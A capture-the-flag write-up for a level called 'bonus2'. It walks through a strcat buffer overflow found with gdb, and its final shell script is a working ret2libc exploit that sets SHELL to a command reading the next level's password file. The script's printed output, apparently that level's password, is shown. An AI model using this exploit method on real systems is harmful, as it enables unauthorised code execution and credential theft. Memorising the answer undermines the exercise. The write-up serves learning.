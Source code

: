 # Speaking in LANG's (bonus2)

This [binary](source.c) will greet the user differently base on the `LANG`
environment variable. To do anything it requires two arguments. These arguments
are copied back to back in memory. If the first one is big enough, meaning it
actually contains 40 bytes of data without any null byte, the second one is
going to be concanated to it in memory. And then both arguments are going to be
used down the line even though only the first one was to be used. This allows us
to perform a buffer overflow on the `strcat` call in the _greetuser_ function.

This call will concatenate the user input with a custom greeting that will be
more or less long depending on the language:

```shell
# run gdb on the binary
gdb ./bonus2
(gdb) p strlen("Hello ")
$1 = 6
(gdb) p strlen("Goedemiddag! ")
$2 = 13
(gdb) p strlen("Hyvää päivää ")
$3 = 18
(gdb) quit
# test with the finnish version
LANG=fi ./bonus2 "aaaaaaa" "bbbbbbb"
Hyvää päivää aaaaaaa
```

Here, the longer the better since it will allow us to overwrite more data in
memory. Now let's make this buffer overflow and see where is _greetuser_'s
return address:

```shell
# set the LANG to the value we want
(gdb) set environment LANG=fi
# run with arguments filling the entire buffers
(gdb) run `python -c 'print "a" * 40'` `python -c 'print "aaaabbbbccccddddeeeeffffgggghhhh"'`
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh

Program received signal SIGSEGV, Segmentation fault.
0x66666565 in ?? ()
```

0x66 is the ascii code for 'e' and 0x65 for 'f'. This means that the return
address starts at the 18th byte of our second argument and that we have 10 more
bytes we can overwrite (not counting the null byte added at the end by
`strcat`). This is where the fun begins. What we're gonna do is a ret2libc like
in [level2](level2):

| padding (18) | system (4) | exit (4)   | SHELL's address |
|--------------|------------|------------|-----------------|
| 0x616161...  | 0xb7e6b060 | 0xb7e5ebe0 | 0xbffffdc1      |

This is what the second argument looks like. For this to work we need also to
set `LANG` to "fi" and put the command we want to execute in the `SHELL` env.

Here's the script that does all that:

```shell
export SHELL="cat /home/user/bonus3/.pass"
export LANG=fi
ARG1=$(python -c 'print "a" * 40')
ARG2=$(python -c 'print "b" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xbf\xff\xfd\xc1"[::-1]')
./bonus2 $ARG1 $ARG2
# outputs -> 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

> The tricky part here was finding the SHELL env variable's address. For this we
> used a little helper [program](env_finder.c) which we used to get the address
> it was in function of the number of arguments and of the environment. Event
> then, the address was not exact. The result was found by trial and error based
> on the errors returned by the failing `sh` command.
